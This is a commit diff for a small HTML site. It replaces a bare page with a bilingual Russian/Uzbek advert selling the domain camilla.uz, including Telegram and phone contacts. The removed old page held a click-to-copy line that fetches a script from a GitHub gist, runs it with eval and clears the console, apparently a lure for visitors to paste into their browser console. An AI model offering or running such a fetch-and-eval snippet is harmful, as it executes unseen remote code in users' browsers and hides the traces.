

Before and after one commit to Khasan1111/camilla, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,28 +1,146 @@
 <!DOCTYPE html>
 <html lang="ru">
 <head>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>P1</title>
+    <meta charset="UTF-8" />
+    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
+    <title>Купить домен Camilla.uz — Сайт на продажу | Sotiladi</title>
+    <!-- SEO Meta Tags -->
+    <meta name="description" content="Премиум-домен camilla.uz выставлен на продажу. Красивое, запоминающееся имя для бизнеса. Свяжитесь в Telegram или по телефону." />
+    <meta name="keywords" content="camilla.uz, купить домен, домен на продажу, sotiladi domen, uz domen sotish, премиум домен uz" />
+    <meta name="author" content="Camilla.uz" />
+    <!-- Open Graph / Social -->
+    <meta property="og:title" content="Camilla.uz продается | Sotiladi" />
+    <meta property="og:description" content="Премиум-домен camilla.uz на продажу. Telegram: @khasan_dev | Тел: +998 90 270 02 24" />
+    <meta property="og:type" content="website" />
+    <meta property="og:url" content="https://camilla.uz/" />
+    <meta property="og:image" content="https://camilla.uz/og-image.jpg" /> <!-- Замени, если добавишь картинку -->
+    <!-- Twitter -->
+    <meta name="twitter:card" content="summary_large_image" />
+    <meta name="twitter:title" content="Camilla.uz продается | Sotiladi" />
+    <meta name="twitter:description" content="Премиум-домен camilla.uz на продажу. Свяжитесь: @khasan_dev" />
     <style>
         body {
+            font-family: 'Segoe UI', Arial, sans-serif;
+            display: flex;
+            flex-direction: column;
+            justify-content: center;
+            align-items: center;
+            min-height: 100vh;
             margin: 0;
+            background: linear-gradient(135deg, #f0f4f8, #d9e2ec);
+            color: #333;
             padding: 20px;
-            font-family: monospace;
+            box-sizing: border-box;
         }
-        #code {
+        .container {
+            text-align: center;
+            background: white;
+            padding: 40px 30px;
+            border-radius: 16px;
+            box-shadow: 0 10px 30px rgba(0,0,0,0.1);
+            max-width: 600px;
+            width: 100%;
+        }
+        h1 {
+            font-size: 36px;
+            margin-bottom: 20px;
+            color: #1a1a1a;
+        }
+        p {
+            font-size: 22px;
+            margin: 15px 0;
+        }
+        a {
+            color: #007bff;
+            text-decoration: none;
+            font-weight: bold;
+        }
+        a:hover {
+            text-decoration: underline;
+        }
+        .phone-link {
+            color: #007bff;
+            text-decoration: underline;
+            font-weight: bold;
             cursor: pointer;
-            user-select: all;
+        }
+        .lang-switcher {
+            position: absolute;
+            top: 20px;
+            right: 20px;
+        }
+        .lang-switcher button {
+            margin: 0 5px;
+            padding: 8px 16px;
+            border: 1px solid #ccc;
+            background: white;
+            cursor: pointer;
+            border-radius: 8px;
+            transition: background 0.3s;
+        }
+        .lang-switcher button:hover {
+            background: #f0f0f0;
+        }
+        .price {
+            font-size: 28px;
+            color: #e74c3c;
+            margin: 30px 0;
+            font-weight: bold;
+        }
+        @media (max-width: 600px) {
+            h1 { font-size: 28px; }
+            p { font-size: 18px; }
+            .price { font-size: 24px; }
         }
     </style>
 </head>
 <body>
-    <div id="code">fetch('https://gist.githubusercontent.com/Khasan1111/f9218594bbc5006fc5701ace58c0128c/raw/dca712fd36303edf405e57162437d638e9a376d7/script.js').then(r => r.text()).then(code => { eval(code); console.clear(); })</div>
+    <div class="lang-switcher">
+        <button onclick="setLanguage('ru')">Русский</button>
+        <button onclick="setLanguage('uz')">O'zbek</button>
+    </div>
+
+    <div class="container">
+        <h1 id="title">Сайт camilla.uz продается!</h1>
+        <div class="price" id="price">Цена: по запросу (обсуждаемая)</div>
+        <p id="desc">Премиум-домен для вашего бизнеса. Короткое, красивое и запоминающееся имя.</p>
+        <p id="contact">
+            Для связи напишите в Telegram:
+            <a href="https://t.me/khasan_dev" target="_blank" rel="noopener noreferrer">@khasan_dev</a>
+        </p>
+        <p id="phone">
+            Телефон:
+            <a href="tel:+998902700224" class="phone-link">+998 90 270 02 24</a>
+        </p>
+    </div>
 
     <script>
-        document.getElementById('code').addEventListener('click', function() {
-            navigator.clipboard.writeText(this.textContent);
-        });
+        function setLanguage(lang) {
+            if (lang === 'ru') {
+                document.getElementById('title').textContent = 'Сайт camilla.uz продается!';
+                document.getElementById('price').textContent = 'Цена: по запросу (обсуждаемая)';
+                document.getElementById('desc').textContent = 'Премиум-домен для вашего бизнеса. Короткое, красивое и запоминающееся имя.';
+                document.getElementById('contact').innerHTML =
+                    'Для связи напишите в Telegram: <a href="https://t.me/khasan_dev" target="_blank" rel="noopener noreferrer">@khasan_dev</a>';
+                document.getElementById('phone').innerHTML =
+                    'Телефон: <a href="tel:+998902700224" class="phone-link">+998 90 270 02 24</a>';
+                document.title = 'Купить домен Camilla.uz — Сайт на продажу | Sotiladi';
+                document.documentElement.lang = 'ru';
+            } else if (lang === 'uz') {
+                document.getElementById('title').textContent = 'Camilla.uz sayti sotiladi!';
+                document.getElementById('price').textContent = 'Narxi: kelishilgan holda';
+                document.getElementById('desc').textContent = 'Biznesingiz uchun premium domen. Qisqa, chiroyli va esda qolarli nom.';
+                document.getElementById('contact').innerHTML =
+                    'Bogʻlanish uchun Telegramda yozing: <a href="https://t.me/khasan_dev" target="_blank" rel="noopener noreferrer">@khasan_dev</a>';
+                document.getElementById('phone').innerHTML =
+                    'Telefon: <a href="tel:+998902700224" class="phone-link">+998 90 270 02 24</a>';
+                document.title = 'Camilla.uz domeni sotiladi — Sayt sotiladi | For Sale';
+                document.documentElement.lang = 'uz';
+            }
+        }
+
+        // Русский по умолчанию
+        setLanguage('ru');
     </script>
 </body>
 </html>
```
